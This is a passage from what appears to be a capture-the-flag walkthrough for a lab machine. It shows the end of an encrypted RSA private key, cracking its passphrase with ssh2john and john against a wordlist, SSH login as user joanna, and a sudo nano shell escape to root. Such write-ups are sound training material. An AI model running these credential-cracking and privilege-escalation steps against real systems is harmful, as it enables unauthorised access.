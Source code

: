 XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN  
-----END RSA PRIVATE KEY-----  
</sub></sup>

Decrypting this is possible with ssh2john.py and then john. ssh2john.py converts the private key into a format consumable by john. 

```bash
ssh2john.py encryptedKey > johnCapableKey; john johnCapablekey --wordlist=rockyou.txt
```

This reveals a password of bloodninjas which is used to encrypt the private key. We can now generate the decrypted private key with:

```bash
$ oopenssl rsa -in encryptedKey -out decryptedKey
$ password: bloodninjas
```

…and authenticate with:
> $ ssh -i decryptedKey joanna@10.10.10.171 

As joanna we can $ sudo -l to see that we can run nano as root. This means we have root access via a nano command execution. The relevant gtfobin article is here:
> https://gtfobins.github.io/gtfobins/nano/  

Opening nano as sudo we can then perform:
```bash
^R^X
Reset; sh 1>&0 2>&0
```
Where ^R^X is ctrl+R and ctrl+X.

These commands prompt a shell inside the nano terminal. 




